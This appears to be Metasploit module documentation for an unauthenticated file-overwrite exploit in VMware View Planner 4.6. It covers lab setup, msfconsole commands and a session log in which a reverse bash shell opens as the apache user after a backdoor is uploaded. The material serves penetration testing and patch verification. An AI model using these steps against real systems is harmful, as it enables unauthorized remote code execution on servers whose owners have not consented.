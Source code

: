 ## Vulnerable Application
VMWare View Planner 4.6 prior to 4.6 Security Patch 1 contained an log file upload script,
named `log_upload_wsgi.py`, which was mapped on to the web page `/logupload` and available
to unauthenticated users. Furthermore, unauthenticated users could browse the source code of
this file by navigating to `/wsgi_log_upload/log_upload_wsgi.py`, giving them an easy way to
ensure that they restored the original contents of the `log_upload_wsgi.py` file.

The module takes advantage of these two properties to first obtain the contents of the
`log_upload_wsgi.py` file and then overwrite it with a backdoored copy. Once a request has been
sent to `/logupload` to trigger the payload, the original copy of `log_upload_wsgi.py` is then
restored to ensure the target can continue its normal operations. Successful exploitation results
in RCE as the `apache` user within the `appacheServer` Docker container.

### Setup Steps

1. Sign up for an account at https://my.vmware.com/web/vmware/registration
1. Browse to https://my.vmware.com/web/vmware/downloads/details?downloadGroup=VIEW-PLAN-460&productId=1067&rPId=53394 and download the OVA file for View Planner Harness.
1. Verify the name of the downloaded OVA is viewplanner-harness-4.6.0.0-16995088_OVF10.ova and its hash is 4639f1916ffd30095cf5af383f38f7de
1. Install the VM and boot it up. When you get to the main screen, which will take several minutes, select Login with the arrow keys and log in with the username `root` and password `changeme`.
1. Run `~/viewplanner/setup/harness_first_boot.sh` to start the server.
1. Verify that the web server is accessible over port 80 or 443 and that the page at `/logupload` is accessible.

## Verification Steps

1. Install the server
1. Start msfconsole
1. Do: `use exploit/linux/http/vmware_view_planner_4_6_uploadlog_rce`
1. Do: `set rhosts [Target IP]`
1. Do: `set lhost [Local IP]`
1. Do: `exploit`
1. You should get a shell as the `apache` user on the target machine.
1. You should also see that the original copy of `log_upload_wsgi.py` is restored after you get a shell.

## Options

## Scenarios

### VMWare View Planner 4.6.0.0 OVA (viewplanner-harness-4.6.0.0-16995088_OVF10.ova)

```
msf6 > use exploit/linux/http/vmware_view_planner_4_6_uploadlog_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/vmware_view_planner_4_6_uploadlog_rce) > set RHOSTS 172.18.51.76
RHOSTS => 172.18.51.76
msf6 exploit(linux/http/vmware_view_planner_4_6_uploadlog_rce) > set LHOST 172.18.54.135
LHOST => 172.18.54.135
msf6 exploit(linux/http/vmware_view_planner_4_6_uploadlog_rce) > exploit

[*] Started reverse TCP handler on 172.18.54.135:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Vulnerable log_upload_wsgi.py file identified!
[*] Uploading backdoor to system via the arbitrary file upload vulnerability!
[+] Backdoor uploaded!
[*] Sending request to execute the backdoor!
[*] Command shell session 1 opened (172.18.54.135:4444 -> 172.18.51.76:53274) at 2021-03-10 14:57:00 -0600
[*] Reuploading the original code to remove the backdoor!
[+] Original file restored, enjoy the shell!

id
uid=25(apache) gid=25(apache) groups=25(apache),
uname -a
Linux cf49e2261af4 4.9.137-1.ph2 #1-photon SMP Tue Nov 20 14:26:55 UTC 2018 x86_64
```
